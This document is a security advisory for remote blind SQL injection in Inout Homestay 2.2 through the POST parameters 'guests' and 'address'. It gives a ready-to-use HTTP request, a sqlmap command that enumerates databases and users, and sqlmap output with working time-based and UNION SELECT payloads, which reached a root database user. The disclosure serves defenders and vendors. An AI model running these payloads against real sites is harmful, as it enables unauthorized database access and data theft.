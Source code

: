 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Homestay
Product             : Inout Homestay
version             : 2.2
Date                : 2022-05-22
Vendor Site         : https://www.inoutscripts.com/products/inout-homestay/
Exploit Detail      : https://github.com/bigb0x/CVEs/blob/main/Inout-Homestay-2-2-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Inout Homestay is a rental portal application, it suffers from two blind SQL injection. Both POST parameters "guests" and "address" are vulnerable.
exploiting this vulnerablity will allow remote non-authenticated attackers not only to break the SQL syntax, but it is also possible to utilise a UNION SELECT query to reflect sensitive information such as the current database version, database users and collect system info. This could result in full information disclosure.
<br>

## Vulnerable Parameters: guests and address (POST)

<br>

Vulnerability File: index.php

<br>

### HTTP Post Request
`
POST /index.php?page=search/rentals HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://some-vuln-host.com
Cookie: currencyid=10; currencycode=BYR; language=2; io_lang_code=es
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 189
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: some-vuln-host.com
Connection: Keep-alive
address=3[inject_sql_here]&guests=-1[or_inject_sql_here]&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San%20Francisco&searchstate=NY
`
<br>
### Sqlmap command:
`
python sqlmap.py -r homestay.txt  -p guests --dbms=MySQL --banner --random-agent --current-db --dbs --current-user
`
<br>

### output:
`
Parameter: guests (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: address=3137 Laguna Street&guests=1' AND (SELECT 4341 FROM (SELECT(SLEEP(5)))uczv) AND 'bxOk'='bxOk&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: address=3137 Laguna Street&guests=1' UNION ALL SELECT NULL,NULL,CONCAT(0x717a6b7871,0x715266764977597043634c45437479454951476d57557270425449574466726644497a4b76734f77,0x7171767871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

[22:00:34] [INFO] testing MySQL
[22:00:34] [INFO] confirming MySQL
[22:00:43] [INFO] the back-end DBMS is MySQL
[22:00:43] [INFO] fetching banner
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.0
banner: '5.7.38-0ubuntu0.18.04.1'
[22:00:43] [INFO] fetching current user
current user: 'root@localhost'
[22:00:43] [INFO] fetching current database
current database: 'inout_homestay'
[22:00:43] [INFO] fetching database names
available databases [50]:

`
<br>
<img src="./resources/homestay-sqlmap1.png">
<br>
<img src="./resources/homestay-sqlmap2.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-22: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
